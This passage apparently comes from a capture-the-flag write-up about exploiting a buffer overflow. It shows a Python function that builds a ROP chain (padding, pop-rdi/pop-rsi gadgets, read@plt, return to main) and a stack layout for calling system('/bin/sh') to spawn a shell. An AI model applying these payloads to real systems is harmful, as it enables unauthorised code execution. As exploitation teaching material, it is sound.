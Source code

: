 0x0040060d		| 8 bytes			| address of `main` to allow repetition


and the corresponding python function:

```python
def write(address, data, div_addr):

    payload = bytes('A' * 32, 'utf-8')

    payload += rop(
        0x42424242, # frame pointer
        0x00400703, # pop rdi; ret;
        len(data),
        0x00400701, # pop rsi; pop r15; ret;
        len(data)+1,
        0,
        div_addr, # rdx <- 400
        0x00400701, # pop rsi; pop r15; ret;
        address,
        0,
        0x00400703, # pop rdi; ret;
        0,    
        0x004004d0, # read@plt
        0x0040060d, # main again
        0x0040060d, # main again
        )

    s7.sendbinline(payload)
    s7.sendbinline(data)

    s7.tryexpect("If you're cool you'll get a shell.\n"
                 "Welcome Stranger\n"
                 "What is your password\?",
                  exitwithprogram=False
                 )
                 
    if not s7.isalive():
        raise 

```

## Executing the shell

Once both `system` and `"/bin/sh"` addresses are known, the shell is executed the usual way using such a buffer overflow layout:

Chunk Contents   | Chunk length   | Meaning 
-----------------| ---------------|----------------
????             | 32 bytes       | Initial data, regularly inside the buffer
XXXXXXXX         | 8 bytes        | Overwrites saved frame pointer (don't care)
0x00400703       | 8 bytes        | pop rdi; ret;
YYYYYYYY			  | 8 bytes		| address of `"/bin/sh"`
0x00400704		| 8 bytes			| ret; just to keep the stack 16-bytes aligned
&system			| 8 bytes			| address of `system`
0x0040060d		| 8 bytes			| address of `main` to allow repetition
